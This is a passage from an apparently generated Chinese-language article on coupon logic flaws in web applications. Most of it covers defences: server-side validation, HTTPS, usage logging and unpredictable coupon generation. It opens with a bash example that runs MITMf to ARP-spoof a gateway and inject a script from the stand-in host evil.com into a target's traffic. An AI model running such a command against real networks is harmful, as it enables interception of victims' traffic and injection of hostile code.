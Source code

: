 **代码示例**：
```bash
# 使用MITMf进行中间人攻击
mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.100 --inject --js-url http://evil.com/malicious.js
```

## 4. 防御措施

### 4.1 服务器端验证
确保优惠券的验证逻辑在服务器端进行，客户端仅作为展示和提交入口。

### 4.2 使用加密通信
使用HTTPS等加密通信协议，防止优惠券信息在传输过程中被截获。

### 4.3 记录使用情况
服务器端记录优惠券的使用情况，防止重复使用。

### 4.4 复杂生成算法
使用复杂的优惠券生成算法，防止优惠券被预测或暴力破解。

## 5. 总结
优惠券逻辑缺陷是Web应用程序中常见的安全漏洞，攻击者可以通过预测、暴力破解、重复使用、绕过验证等多种手法进行利用。开发人员应重视优惠券的生成、验证、使用等逻辑的安全性，采取有效的防御措施，防止优惠券逻辑缺陷被利用。

---

*文档生成时间: 2025-03-12 12:55:46*
